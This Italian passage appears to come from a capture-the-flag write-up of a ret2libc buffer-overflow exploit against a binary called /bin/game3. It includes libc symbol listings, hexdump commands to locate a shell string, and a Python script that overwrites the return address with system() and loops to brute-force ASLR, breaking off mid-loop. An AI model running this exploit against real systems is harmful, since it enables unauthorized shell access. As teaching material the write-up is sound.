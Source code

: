 ```
  1380: 001ad204     4 OBJECT  GLOBAL DEFAULT   31 argp_err_exit_status@@GLIBC_2.1
  1492: 000fb610    62 FUNC    GLOBAL DEFAULT   12 pthread_exit@@GLIBC_2.0
  2090: 001ad154     4 OBJECT  GLOBAL DEFAULT   31 obstack_exit_failure@@GLIBC_2.0
  2243: 00033290    77 FUNC    WEAK   DEFAULT   12 on_exit@@GLIBC_2.0
  2386: 000fc180     2 FUNC    GLOBAL DEFAULT   12 __cyg_profile_func_exit@@GLIBC_2.2
```




A questo punto passiamo a trovare i parametri da passare alla funzione system.
Cercando una delle shell possibili, per esempio /bin/bash o sh utilizzabili all'interno dell'eseguibile con il comando sotto :

```
hexdump -C /bin/game3 | grep sh
```

Oppure possiamo scomodare la libc stessa.

```
hexdump -C /lib/i386-linux-gnu/libc.so.6 | grep sh
```


Troviamo alcuni spunti validi, tra i quali scegliamo quello sotto, preso dalla libc del target :


```
00164cd0  6e 2f 63 73 68 00 77 2b  63 65 00 2f 64 65 76 2f  |n/csh.w+ce./dev/|
```




Sostituiamo i valori degli offset e delle basi trovate.




```
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

libc_base_addr = 0xb757d000
exit_off = 0x00033260             
system_off = 0x00040310           
system_addr = libc_base_addr + system_off
exit_addr = libc_base_addr + exit_off
system_arg = libc_base_addr + 0x00164cd3

#endianess convertion
def conv(num):
 return struct.pack("<I",num)

# Junk + system + exit + system_arg
buf = "A" * 76
buf += conv(system_addr)
buf += conv(exit_addr)
buf += conv(system_arg)

print "Calling vulnerable program"
#Multiple tries until we get lucky
i = 0
while (i < 4096):
 print "Number of tries: %d" %i
 i += 1
 ret = call(["/bin/game3", buf])
 if (not ret):
  break
 else:
```